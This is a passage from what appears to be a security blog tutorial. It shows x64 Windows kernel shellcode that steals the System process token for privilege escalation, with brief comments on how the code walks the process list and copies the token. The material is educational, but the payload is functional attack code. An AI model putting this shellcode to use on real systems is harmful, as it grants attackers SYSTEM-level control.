 The following shellcode is typical token stealing shellcode used in privilege escalation attacks:

```asm
BITS 64
SECTION .text
    SYS_PID equ 0x04
    PRCB_DATA equ 0x180
    CURRENT_THREAD equ 0x08
    APC_STATE equ 0x98
    PROCESS equ 0x20
    UNIQUE_PROCESS_ID equ 0x440
    ACTIVE_PROCESS_LINKS equ 0x448
    TOKEN equ 0x4b8

global main

main:
find_process:
    xor rax, rax                                  
    mov rax, [gs:rax+PRCB_DATA+CURRENT_THREAD]    
    mov rax, [rax+APC_STATE+PROCESS]
    mov r8, rax
    mov r9, SYS_PID

next_system_process:
    mov r8, [r8+ACTIVE_PROCESS_LINKS]    ; We dereference the Flink in to r8
    sub r8, ACTIVE_PROCESS_LINKS         ; We subtract the offset to get the address of the next _EPROCESS
    cmp [r8+UNIQUE_PROCESS_ID], r9       ; We check the process ID (looking for 4 = System)
    jnz next_system_process              ; if not then loop back to dereference the next Flink

found_system_process:
    mov rcx, [r8+TOKEN] 
    and cl, 0xf0
    mov [rax+TOKEN], rcx
```

I have only commented the bits discussed in this post.

That is all, go away!

[Home](https://plackyhacker.github.io)
